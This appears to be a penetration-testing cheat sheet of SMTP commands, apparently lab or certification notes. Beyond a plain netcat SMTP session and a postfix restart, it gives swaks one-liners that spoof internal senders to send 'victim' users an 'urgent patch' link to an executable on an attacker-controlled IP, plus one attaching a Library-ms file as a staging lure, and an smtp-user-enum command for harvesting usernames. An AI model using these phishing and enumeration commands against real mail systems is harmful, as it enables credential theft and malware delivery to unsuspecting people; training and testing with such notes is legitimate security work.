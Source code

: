 ### Netcat interact with smtp server with annoymous login(line by line copy)
```
0.nc -C mail.example.org 25 //Insert a carriage return character (Ctrl+V Ctrl+M)
1.HELO example.com
2.MAIL FROM:bar@example.org
3.RCPT TO:foo@example.com
4.DATA
From: bar@example.org
To: foo@example.com
Subject: Test
Date: Thu, 20 Dec 2012 12:00:00 +0000

Testing
.
5.QUIT
```

### swaks to send email
swaks --to "tharper@victim" --from "rmurray@victim" --ehlo victim --body "Following link is urgent patch link: http://192.168.119.130/patch.exe" --header "Subject:urgent patch" --server 192.168.130.55(email server)

swaks --to jim@relia.com --from maildmz@relia.com --server 192.168.193.189 --attach @/home/kali/Desktop/config.Library-ms --body "Please take a look at the config library file" --header "Subject: Staging Script"

### mail server
```
sudo systemctl restart postfix
```

### smtp user enumeration
```
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t host
```
